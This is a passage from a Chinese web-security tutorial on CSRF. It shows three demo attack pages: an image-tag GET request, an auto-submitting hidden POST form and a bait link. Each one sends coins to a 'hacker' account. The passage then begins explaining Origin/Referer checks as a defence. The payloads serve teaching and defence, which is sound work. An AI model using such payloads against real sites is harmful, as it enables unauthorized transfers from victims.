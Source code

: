 ```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  </body>
</html>
```

### POST 类型的 CSRF

构建一个自动提交转账请求的隐藏表单，当用户打开该站点时自动执行表单提交转账请求。

```html
<!DOCTYPE html>
<html>
<body>
  <h1>黑客的站点：CSRF攻击演示</h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

### 链接类型的 CSRF

引诱用户点击图片下方的链接，发起请求。

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```

## 如何阻止 CSRF 攻击

1. Origin/ Referer 属性验证来源站点

CSRF 攻击来自第三方站点，我们可以通过验证来源站点辨别是否是正常的请求。两者都表示来源站点，区别是 Origin 属性只包含域名信息，不包含具体 URL 路径。一般情况下推荐使用 Origin 进行处理。

```text
// Referer
http://dev.insight.dtstack.cn/aiworks/model/modelList

// Origin
http://dev.insight.dtstack.cn
```
